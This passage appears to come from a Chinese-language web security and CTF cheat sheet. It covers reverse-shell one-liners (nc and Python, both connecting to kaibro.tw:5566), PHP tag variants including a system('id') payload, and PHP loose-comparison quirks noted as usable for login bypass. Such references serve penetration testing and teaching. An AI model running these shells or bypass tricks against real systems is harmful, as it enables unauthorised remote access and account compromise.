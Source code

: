 - NC
    - `nc -e /bin/sh kaibro.tw 5566`

- Python
    - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("kaibro.tw",5566));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


# PHP Tag

- `<? ?>`
    - short_open_tag 決定是否可使用短標記
    - 或是編譯php時 --enable-short-tags
- `<?=`
    - 等價 <? echo
    - 自`PHP 5.4.0`起，always work!
- `<% %>`、`<%=`
    - 自`PHP 7.0.0`起，被移除
    - 須將`asp_tags`設成On
- `<script language="php"`
    - 自`PHP 7.0.0`起，被移除
    - `<script language="php">system("id"); </script>`



# PHP Weak Type

- `var_dump('0xABCdef'       == '     0xABCdef');`
    * true           (Output for hhvm-3.18.5 - 3.22.0, 7.0.0 - 7.2.0rc4: false)

- `var_dump('0010e2'         == '1e3’);`
    - true
- `strcmp([],[])`
    - 0
- `sha1([])`
    - NULL
- `'123' == 123`
- `'abc' == 0`
- `'123a' == 123`
- `'0x01' == 1`
    - PHP 7.0後，16進位字串不再當成數字
    - e.g `var_dump('0x01' == 1)` => false
- `'' == 0 == false == NULL`
- `md5([1,2,3]) == md5([4,5,6]) == NULL`
    - 可用在登入繞過 (用戶不存在，則password為NULL)
- `var_dump(md5(240610708));`
    - 0e462097431906509019562988736854
- `var_dump(sha1(10932435112));`
    - 0e07766915004133176347055865026311692244
- `$a="123"; $b="456"`
    - `$a + $b == "579";`
    - `$a . $b == "123456"`
